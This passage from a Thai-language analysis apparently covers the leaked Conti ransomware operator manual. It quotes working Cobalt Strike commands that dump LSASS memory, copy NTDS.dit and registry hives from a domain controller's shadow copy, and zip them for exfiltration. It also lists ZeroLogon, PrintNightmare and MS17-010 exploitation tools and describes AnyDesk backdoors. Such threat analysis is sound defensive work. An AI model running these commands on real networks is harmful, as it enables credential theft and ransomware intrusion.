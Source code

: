 ```
// Method 1: via rundll32
shell rundll32.exe C:\Windows\System32\comsvcs.dll,MiniDump <PID> C:\ProgramData\lsass.dmp full

// Method 2: via wmic
shell wmic /node:<target> process call create "cmd /c rundll32.exe C:\Windows\System32\comsvcs.dll,MiniDump <PID> C:\ProgramData\lsass.dmp full"

// Method 3: via PsExec
remote-exec psexec <target> cmd /c rundll32.exe C:\Windows\System32\comsvcs.dll,MiniDump <PID> C:\ProgramData\lsass.dmp full
```

- โจมตีช่องโหว่ในระบบที่ทำให้โดยมาซึ่งข้อมูลสำหรับใช้ยืนยันตัวตนหรือเงื่อนไข remote code execution ที่สามารถใช้เก็บข้อมูลสำหรับใช้ยืนยันตัวตนได้ต่อ ช่องโหว่ที่ถูกระบุมีดังนี้
    - ZeroLogon (CVE-2020-1472): มีตัวอย่างคำสั่งในการใช้ฟังก์ชัน `lsadump::zerologon` ใน mimikatz และ [ZeroLogon-BOF](https://github.com/rsmudge/ZeroLogon-BOF) ผ่าน Cobalt Strike ในการโจมตี
    - PrintNightmare (CVE-2021-34527): ใช้ `powershell-import` เพื่อเรียกฟังก์ชัน [Invoke-Nightmare](https://github.com/calebstewart/CVE-2021-1675) ในการโจมตี
    - MS17-010: ใช้ Metasploit Framework เพื่อโจมตีระบบที่มีช่องโหว่จากนั้นฝังตัวและเก็บข้อมูลสำหรับใช้ยืนยันตัวตนในระบบที่โจมตีได้
- ทำสำเนาไฟล์ NTDS ออกมา จุดน่าสนใจในส่วนนี้คือเทคนิคที่ใช้ในการสร้างสำเนาไฟล์ คู่มือของ Conti ระบุให้ใช้ฟีเจอร์ Volume Shadow Copies ในการสร้างสำเนาจากนั้นทำการคัดลอกสำเนาจากพาธของ Volume Shadow Copies ออกมา **เทคนิคนี้เป็นเทคนิคเดียวกันกับช่องโหว่ HiveNightmare หรือ SeriousSAM ซึ่งพึ่งถูกเปิดเผยเมื่อต้นเดือนสิงหาคม 2021**

```
// Step 1: Create a shadow copy
shell wmic /node:"DC01" /user:"DOMAIN\admin" /password:"cleartextpass" process call create "cmd /c vssadmin create shadow /for=C:\ 2>&1"

// Step 2: Copy the shadow copy out
shell wmic /node:"DC01" /user:"DOMAIN\admin" /password:"cleartextpass" process call create "cmd / c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy55\Windows\NTDS\NTDS.dit c:\temp\log\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy55\Windows\System32\config\SYSTEM c:\temp\log\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy55\Windows\System32\config\SECURITY c:\temp\log\

// Step 3: Compress for exfiltrating
7za.exe a -tzip -mx5 \\DC01\C$\temp\log.zip \\DC01\C$\temp\log -pTOPSECRETPASSWORD
```

- ค้นหาข้อมูลสำรองและข้อมูลใน NAS โดยใช้โปรแกรม NetScan ที่มีอยู่ในชุดข้อมูล ManualsAndSoftware

จากนั้นผู้ปฏิบัติการจะทำการสร้างช่องทางลับในการเข้าถึงระบบภายหลัง ผู้ปฏิบัติการจะอาศัยซอฟต์แวร์ในกลุ่ม remote monitoring and management หรือ RMM อย่าง [AnyDesk](https://anydesk.com/en) หรือ [Atera](https://www.atera.com/) ซึ่งมักปรากฎอยู่ในองค์กรโดยทั่วไปอยู่แล้วในการจัดการการเข้าถึง สคริปต์สำหรับดาวโหลดและติดตั้ง AnyDesk ที่พบในชุดข้อมูล ManualsAndSoftware จะถูกใช้ในส่วนนี้

ในส่วนสุดท้ายของขั้นตอนที่ 1 คู่มือจะเน้นไปที่แนวทางของการระบุหาบัญชีของผู้ดูแลระบบทั้งในสภาพแวดล้อมที่เป็น Active Directory, เซิร์ฟเวอร์, NAS, ระบบสำรองข้อมูลใส่เทปรวมไปถึงระบบคลาวด์ซึ่งมักมีข้อมูลสำรองอยู่ แนวทางในส่วนการระบุหาบัญชีของผู้ดูแลระบบเกิดขึ้นทั้งการโดยใช้คำสั่ง `net` , โปรแกรม [SharpView](https://github.com/tevora-threat/SharpView) และใช้โปรแกรม AdFind พร้อมกับสคริปต์เพื่อช่วยเก็บข้อมูล

ข้อมูลในส่วนนี้มีค่อนข้างมากเนื่องจากคู่มือให้รายละเอียดในการทำความเข้าใจผลลัพธ์จากคำสั่งและโปรแกรมควบคู่ไปกับการทำความเข้าใจโครงสร้างขององค์กรเป้าหมาย รวมไปถึงการข้อมูลในเว็บเบราว์เซอร์, ไฟล์ประวัติการใช้งานโปรแกรมต่าง ๆ เช่น Putty, WinSCP, DBeaver และอื่น ๆ, ไฟล์ที่เกี่ยวข้องกับโปรแกรมในกลุ่ม password manager หรือไฟล์ที่อาจมีรหัสผ่านบันทึกอยู่ภายใน
